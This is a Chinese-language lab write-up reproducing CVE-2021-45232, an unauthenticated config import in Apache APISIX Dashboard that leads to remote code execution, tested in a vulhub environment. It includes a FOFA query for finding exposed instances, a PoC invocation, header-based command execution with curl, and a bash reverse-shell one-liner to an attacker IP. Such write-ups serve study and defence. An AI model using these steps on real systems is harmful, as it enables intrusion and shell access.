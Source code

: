 # Apache APISIX Dashboard API权限绕过导致RCE

## 漏洞编号

```
CVE-2021-45232
```



## 漏洞描述

Apache APISIX是一个动态、实时、高性能API网关

而Apache APISIX Dashboard是一个配套的前端面板。

Apache APISIX Dashboard 2.10.1版本前存在两个API

```
/apisix/admin/migrate/export

/apisix/admin/migrate/import
```

他们没有经过droplet框架的权限验证，导致未授权的攻击者可以导出、导入当前网关的所有配置项，包括路由、服务、脚本等。

攻击者通过导入恶意路由，可以用来让Apache APISIX访问任意网站，甚至执行LUA脚本。



注意的是

Apache APISIX和Apache APISIX Dashboard是两个不同的服务

Apache APISIX Dashboard只是一个管理界面

而添加的路由是位于Apache APISIX中，所以需要找到Apache APISIX监听的端口或域名



## 影响版本

```
apache: 2.7.0 < APISIX Dashboard< 2.10.1	
```



## FOFA语法

```
title="Apache APISIX" && status_code="200" && country="CN"
```



## 环境配置

vulhub

```
docker-compose up -d
docker-compose ps
```

![image-20250411111820775](./assets/image-20250411111820775.png)

访问
192.168.1.15:9000

![image-20250411112331110](./assets/image-20250411112331110.png)

利用vulhub默认密码

admin：vulhub进入后台

![image-20250411112431347](./assets/image-20250411112431347.png)

新建新的路由

![image-20250411112450783](./assets/image-20250411112450783.png)

![image-20250411112517017](./assets/image-20250411112517017.png)

节点随意

然后一直下一步，最后提交即可

![image-20250411112542155](./assets/image-20250411112542155.png)

![image-20250411112610030](./assets/image-20250411112610030.png)

路由界面可以看到配置



访问

http://192.168.1.15:9000/apisix/admin/migrate/export

![image-20250411112706832](./assets/image-20250411112706832.png)

![image-20250411112734311](./assets/image-20250411112734311.png)

泄露路由配置



## 漏洞利用

利用给出的poc

```
python3 apisix_dashboard_rce.py http://192.168.1.15:9000
```

![image-20250411114124494](./assets/image-20250411114124494.png)



然后访问192.168.1.15:9080/4HJLTD

bp抓包

添加头部

CMD:id

![image-20250411114147578](./assets/image-20250411114147578.png)

成功执行id命令



利用curl执行

```
curl http://192.168.1.15:9080/4HJLTD -H "cmd:ls"
```

![image-20250411114324574](./assets/image-20250411114324574.png)



尝试反弹shell

```
nc -lvp 283
```

![image-20250411114339372](./assets/image-20250411114339372.png)

```
curl http://192.168.1.15:9080/4HJLTD -H "cmd:bash -i >& /dev/tcp/192.168.1.21/283 0>&1"
```

![image-20250411114356894](./assets/image-20250411114356894.png)



![image-20250411114402127](./assets/image-20250411114402127.png)

成功弹回shell





## 修复建议

更新到最新版本，新版本代理做了鉴权处理